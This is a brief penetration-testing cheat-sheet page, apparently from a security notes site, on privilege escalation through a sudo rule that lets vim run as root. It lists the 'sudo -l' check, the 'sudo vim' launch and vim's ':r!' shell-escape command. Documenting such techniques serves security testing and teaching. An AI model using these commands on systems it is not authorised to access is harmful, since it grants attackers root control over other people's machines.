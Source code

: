 ```yaml
---
title: Sudo Vim Privilege Escalation
description: Sudo vim command might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

```sh
sudo -l

(ALL) NOPASSWD: vim example.txt
```

If we can execute **"vim"** command as root, we can execute the shell command in the vim editor.

<br />

## Exploitation

Simply run **"vim"** command as root.

```sh
sudo vim example.txt
```

In Vim editor, we can run shell commands as root.

```sh
:r!whoami
```